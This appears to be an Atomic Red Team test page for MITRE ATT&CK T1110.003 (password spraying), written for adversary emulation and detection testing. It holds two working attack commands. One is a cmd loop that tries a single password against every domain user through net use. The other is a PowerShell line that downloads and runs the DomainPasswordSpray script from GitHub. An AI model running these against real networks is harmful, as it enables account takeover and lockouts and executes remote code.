 # T1110.003 - Password Spraying
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/003)
<blockquote>Adversaries may use a single or small list of commonly used passwords against many different accounts to attempt to acquire valid account credentials. Password spraying uses one password (e.g. 'Password01'), or a small list of commonly used passwords, that may match the complexity policy of the domain. Logins are attempted with that password against many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)

Typically, management services over commonly used ports are used when password spraying. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Password Spray all Domain Users](#atomic-test-1---password-spray-all-domain-users)

- [Atomic Test #2 - Password Spray (DomainPasswordSpray)](#atomic-test-2---password-spray-domainpasswordspray)


<br/>

## Atomic Test #1 - Password Spray all Domain Users
CAUTION! Be very careful to not exceed the password lockout threshold for users in the domain by running this test too frequently.
This atomic attempts to map the IPC$ share on one of the Domain Controllers using a password of Spring2020 for each user in the %temp%\users.txt list. Any successful authentications will be printed to the screen with a message like "[*] username:password", whereas a failed auth will simply print a period. Use the input arguments to specify your own password to use for the password spray.
Use the get_prereq_command's to create a list of all domain users in the temp directory called users.txt.
See the "Windows FOR Loop Password Spraying Made Easy" blog by @OrEqualsOne for more details on how these spray commands work. https://medium.com/walmartlabs/windows-for-loop-password-spraying-made-easy-c8cd4ebb86b5

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| password | The password to try for each user in users.txt | string | Spring2020|


#### Attack Commands: Run with `command_prompt`! 


```cmd
@FOR /F %n in (%temp%\users.txt) do @echo | set/p=. & @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "#{password}" 1>NUL 2>&1 && @echo [*] %n:#{password} && @net use /delete %logonserver%\IPC$ > NUL
```




#### Dependencies:  Run with `command_prompt`!
##### Description: List of domain users to password spray must exits at %temp%\users.txt
##### Check Prereq Commands:
```cmd
if not exist %temp%\users.txt (exit /b 1) 
```
##### Get Prereq Commands:
```cmd
PathToAtomicsFolder\T1110.003\src\parse_net_users.bat
```




<br/>
<br/>

## Atomic Test #2 - Password Spray (DomainPasswordSpray)
Perform a domain password spray using the DomainPasswordSpray tool. It will try a single password against all users in the domain

https://github.com/dafthack/DomainPasswordSpray

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | Domain to brute force against | String | (Get-ADDomain | Select-Object -ExpandProperty Name)|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/94cb72506b9e2768196c8b6a4b7af63cebc47d88/DomainPasswordSpray.ps1'); Invoke-DomainPasswordSpray -Password Spring2017 -Domain #{domain} -Force
```






<br/>
